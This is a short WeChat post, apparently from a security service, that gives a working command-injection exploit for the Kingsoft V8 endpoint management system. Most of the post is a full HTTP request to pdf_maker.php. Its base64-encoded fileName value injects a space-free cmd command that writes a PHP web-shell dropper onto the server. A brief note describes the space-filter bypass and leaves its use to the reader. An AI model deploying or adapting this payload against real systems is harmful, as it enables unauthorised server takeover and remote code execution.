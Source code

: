 #  金山V8过滤空格后的绕过

[ 渝安服 ](javascript:void\(0\);)

**渝安服** ![]()

微信号 gh_6f701c7c730c

功能介绍 重庆安全卫士，致力于为重庆地区的企业和个人提供专业、高效的安全服务，保卫网络和数据安全。

____

___发表于_

收录于合集

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /inter/pdf_maker.php HTTP/1.1Host: xxxxPragma: no-cacheCache-Control: no-cacheUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7Cookie: PHPSESSID=r9o21cik5neqjjvfhp00a8ltf0; is_need_modify_password=1Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 133  
    url=123&fileName=fHxlY2hvLjEyM148Pz0kZj1mb3BlbigiMS5waHAiLCJ3Iik7ZndyaXRlKCRmLGJhc2U2NF9kZWNvZGUoJF9QT1NUW2NdKSk/Xj4uPj41NTUzLnBocHx8

在某次攻防中，遇到过金山V8终端系统，会过滤空格，当时利用php和cmd的特性，搞了个无空格的。  

写入文件小马，具体自行查看使用。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

